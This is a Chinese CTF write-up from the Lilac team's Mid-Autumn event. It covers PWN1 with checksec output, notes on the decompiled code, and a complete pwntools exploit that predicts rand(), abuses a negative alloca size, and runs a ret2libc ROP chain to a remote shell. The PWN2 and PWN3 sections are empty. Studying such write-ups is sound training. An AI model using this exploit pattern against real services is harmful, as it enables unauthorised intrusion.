 ```yaml
---
title: Lilac-mid-autum-fun
date: 2020-11-08 21:55:39
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/mid.jpg
---
```


# Lilac

>  HIT本部的ctf战队Lilac的中秋活动，只有三道PWN。

<!-- more -->

# PWN1

## checksec

```shell
[*] '/home/giantbranch/Desktop/pwn/mid-autum-fun1/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## ida

![](G:\CTF\Writeups\图片\Liac-middleautumn-pwn1-ida1.png)

![](G:\CTF\Writeups\图片\Liac-middleautumn-pwn1-ida2.png)

向v7中写入v6大小的数据，遇到回车结束。v6就是我们用alloca在栈上申请的大小。

为了保证v6大小能让我们完整的写入payload所以这里给它一个很大的数，“-31”，反正我们不用把所有的申请空间填满。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"
from ctypes import *
libc1=cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

local=0
offset=0x14-3+8-1
if local:
	p=process('./pwn')
	elf = ELF('./pwn')
else:
	p=remote('47.94.239.235',3001)
	elf = ELF('./pwn')

#guess number
def guess():
	libc1.srand(0X91D)
	for i in range(66):
    		num=str(libc1.rand())
    		p.sendlineafter("guess next number :",num)

#gdb.attach(p)
guess()
p.recvuntil("size of you name :")
p.sendline('-31')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi=0x0000000000400b53
main=0x000000000040099C
#gdb.attach(p)

payload='a'*offset+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
p.recvline()
puts_addr=u64(p.recv(6).ljust(8, '\x00'))
print hex(puts_addr)
sleep(0.5)

libcbase=puts_addr-0x06f6a0
system=libcbase+0x0453a0
bin_sh=libcbase+0x18ce17
print hex(puts_addr)

guess()
p.recvuntil("size of you name :")
p.sendline('-31')
#gdb.attach(p)
payload='a'*offset+p64(pop_rdi)+p64(bin_sh)+p64(system)
p.sendline(payload)

p.interactive()
```

## 总结

题目不难，这里主要介绍两个工具

**gdb.attach(p)**：这个命令可以让你在执行脚本的时候再为你开启一个终端，供你进行动态调试。这样我们就可以知道自己的脚本在哪一步出了问题。**~~强推~~**

**libc database search**：LibcSearch虽然感觉很方便，但是它的libc库不算全，这个工具可以让你通过最后三位的偏移确定libc的版本。

# PWN2





# PWN3